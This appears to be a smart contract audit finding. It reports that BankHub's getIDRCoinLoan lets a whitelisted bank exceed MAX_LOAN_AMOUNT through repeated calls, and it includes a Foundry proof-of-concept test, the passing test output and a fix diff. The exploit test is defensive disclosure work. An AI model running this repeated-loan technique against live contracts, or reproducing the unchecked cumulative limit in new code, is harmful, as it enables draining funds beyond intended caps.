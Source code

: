 # [H-03] The whitelisted bank can arbitrarily loan an amount exceeding the `MAX_LOAN_AMOUNT` in the `BankHub::getIDRCoinLoan` function through multiple calls.

## Submitter

ZafiN

## Finding description and impact

The issue in the implementation of the IDR Coin loan is that a malicious bank could repeatedly call `getIDRCoinLoan`, allowing them to borrow more than the intended limit, which is the `MAX_LOAN_AMOUNT`.

## Proof of Concept


```js
    // bank function
    // get IDRCoin for bank reserve
    function getIDRCoinLoan(
        address _bank,
        uint256 _amount
    ) external onlyWhiteListed {
        require(msg.sender == _bank, ""only bank can receive loan from BankHub"");
        if (_amount < MIN_LOAN_AMOUNT) {
            revert insufficientLoanAmount();
        }
        if (_amount > MAX_LOAN_AMOUNT) {
            revert insufficientLoanAmount();
        }

        idrcoin.mint(_bank, _amount);
    }
```

Based on the `getIDRCoinLoan` function, there is improper input validation that does not check how much IDRCoin the bank has already borrowed and whether it has exceeded the `MAX_LOAN_AMOUNT`.  Malicious bank can call the `getIDRCoinLoan` function multiple times, allowing it to exceed the MAX_LOAN_AMOUNT limit set intended by the protocol.

To verify this findings, add the following test to `Base.t.sol`:

```js
    function test_bankCanLoanExceedingMaxLoanAmount() public {
        vm.startPrank(bankABC);

        uint256 maxAmountToLoan = 100e18;

        // will revert if bank loan with amount exceeding MAX_LOAN_AMOUNT;
        vm.expectRevert();
        bankHub.getIDRCoinLoan(bankABC, 10 * maxAmountToLoan);
        
        uint256 maxAmountWithTax = maxAmountToLoan - (maxAmountToLoan * idrCoin.TAX() / idrCoin.DENOMINATOR());

        // However, it does not revert if the bank loans the same amount as before, but partitions it across multiple calls (each call loans the maximum amount).
        for(uint256 i = 0; i < 10; i++) {
            bankHub.getIDRCoinLoan(bankABC, maxAmountToLoan);
        }

        vm.stopPrank();

        // assert
        assertEq(idrCoin.balanceOf(bankABC), 10 * maxAmountWithTax); // Allows the bank to loan an amount exceeding the MAX_LOAN_AMOUNT, bypassing the protocol's intended limit.
    }
```

then run `forge test --mt test_bankCanLoanExceedingMaxLoanAmount -vvv`. the exploit test would PASS:

```bash
[⠒] Compiling...
No files changed, compilation skipped

Ran 1 test for test/Base.t.sol:Base
[PASS] test_bankCanLoanExceedingMaxLoanAmount() (gas: 124998)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.85ms (4.59ms CPU time)

Ran 1 test suite in 28.03ms (5.85ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Recommended mitigation steps

Add a mapping state variable to track the loan amount for each bank and implement a restriction in the `getIDRCoinLoan` function to ensure the total loan amount does not exceed the `MAX_LOAN_AMOUNT`, as shown in the code below:

```diff
diff --git a/src/BankHub.sol b/src/BankHub.sol
index c9b6d40..8b7715e 100644
--- a/src/BankHub.sol
+++ b/src/BankHub.sol

@@ -115,7 +116,11 @@ contract BankHub{
    // mappings
    mapping(address => bool) public whiteListed;
    mapping(address => uint32) public interestRate;
    mapping(address => uint256) public depositTimestamp;
    mapping(address => uint256) public savingAmount;
+   mapping(address => uint256) public amountLoan;
     }

```

```diff
diff --git a/src/BankHub.sol b/src/BankHub.sol
index c9b6d40..8b7715e 100644
--- a/src/BankHub.sol
+++ b/src/BankHub.sol

@@ -115,7 +116,11 @@ contract BankHub{
    // bank function
    // get IDRCoin for bank reserve
    function getIDRCoinLoan(
        address _bank,
        uint256 _amount
    ) external onlyWhiteListed {
        require(msg.sender == _bank, ""only bank can receive loan from BankHub"");
+       require(amountLoan[_bank] + _amount <= MAX_LOAN_AMOUNT, ""cant exceed MAX_LOAN_AMOUNT"");
        if (_amount < MIN_LOAN_AMOUNT) {
            revert insufficientLoanAmount();
        }
        if (_amount > MAX_LOAN_AMOUNT) {
            revert insufficientLoanAmount();
        }

+       amountLoan[_bank] += _amount;
        idrcoin.mint(_bank, _amount);
    }
     }

```
